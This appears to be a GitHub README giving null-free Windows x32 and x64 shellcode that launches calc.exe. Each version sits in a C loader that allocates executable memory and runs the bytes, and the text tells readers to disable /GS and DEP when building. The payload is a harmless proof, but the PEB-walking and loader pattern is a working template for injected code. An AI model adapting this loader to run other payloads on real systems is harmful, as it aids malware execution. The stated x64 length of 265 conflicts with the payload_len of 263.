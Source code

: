# WinShellcode

Windows(x32-x64) null-free shellcode to pop calc.exe
Feel free to contact if any question...



To run it successfully in Visual Studio, you’ll have to compile it with some protections disabled:
Security Check: Disabled (/GS-)
Data Execution Prevention (DEP): No


##########################################################
```
//testing: x64
//len: 265

#include <windows.h>
void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
        "\x50\x53\x51\x52\x57\x56\x55\x54\x41\x50\x41\x51\x41\x52\x41\x53\x41\x54\x41\x55\x41\x56\x41\x57\x41\x57\x48\x83\xec\x20\x48\x31\xdb\x65\x4c\x8b\x63\x60\x4d\x8b\x64\x24\x18\x49\x8b\x74\x24\x20\x48\xad\x48\x96\x48\xad\x4c\x8b\x78\x20\x4d\x31\xe4\x45\x8b\x67\x3c\x4d\x01\xfc\x4d\x31\xf6\x45\x8b\xb4\x24\x88\x00\x00\x00\x4d\x01\xfe\x4d\x31\xe4\x45\x8b\x66\x20\x4d\x01\xfc\xeb\x77\x48\x31\xff\x41\x8b\x3c\x9c\x4c\x01\xff\x48\xa7\x74\x09\x48\xff\xc3\x48\x83\xee\x08\xeb\xe9\x48\x31\xf6\x48\x31\xff\x41\x8b\x76\x24\x4c\x01\xfe\x66\x8b\x3c\x5e\x48\x31\xf6\x41\x8b\x76\x1c\x4c\x01\xfe\x4d\x31\xf6\x44\x8b\x34\xbe\x4d\x01\xfe\xeb\x14\x48\x31\xd2\x48\x83\xc2\x0a\x48\x83\xec\x20\x41\xff\xd6\x48\x83\xc4\x20\xeb\x38\xe8\x1d\x00\x00\x00\x43\x3a\x5c\x57\x69\x6e\x64\x6f\x77\x73\x5c\x53\x79\x73\x74\x65\x6d\x33\x32\x5c\x63\x61\x6c\x63\x2e\x65\x78\x65\x00\x59\xeb\xc7\xe8\x08\x00\x00\x00\x57\x69\x6e\x45\x78\x65\x63\x00\x5e\xe9\x76\xff\xff\xff\x48\x83\xc4\x20\x41\x5f\x41\x5f\x41\x5e\x41\x5d\x41\x5c\x41\x5b\x41\x5a\x41\x59\x41\x58\x5c\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";
    unsigned int payload_len = 263;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```
############################################################
```
//testing: x32
//len: 193 byte

#include <stdio.h>

unsigned char sc[] = 	"\x50\x53\x51\x52\x57\x56\x55\x55\x89\xe5\x83\xec\x18\x31\xf6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6e\x45\x89\x65\xfc\x31\xf6\x64\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10\x89\x5d\xf8\x8b\x43\x3c\x01\xd8\x8b\x40\x78\x01\xd8\x8b\x48\x24\x01\xd9\x89\x4d\xf4\x8b\x78\x20\x01\xdf\x89\x7d\xf0\x8b\x50\x1c\x01\xda\x89\x55\xec\x8b\x50\x14\x31\xc0\x8b\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc\x8b\x3c\x87\x01\xdf\x66\x83\xc1\x08\xf3\xa6\x74\x0a\x40\x39\xd0\x72\xe5\x83\xc4\x28\xeb\x3f\x8b\x4d\xf4\x8b\x55\xec\x66\x8b\x04\x41\x8b\x04\x82\x01\xd8\x31\xd2\x52\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x68\x6d\x33\x32\x5c\x68\x79\x73\x74\x65\x68\x77\x73\x5c\x53\x68\x69\x6e\x64\x6f\x68\x43\x3a\x5c\x57\x89\xe6\x6a\x0a\x56\xff\xd0\x83\xc4\x48\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";

int main()
{
	((void(*)())sc)();
	return 0;
}
```
##########################################################
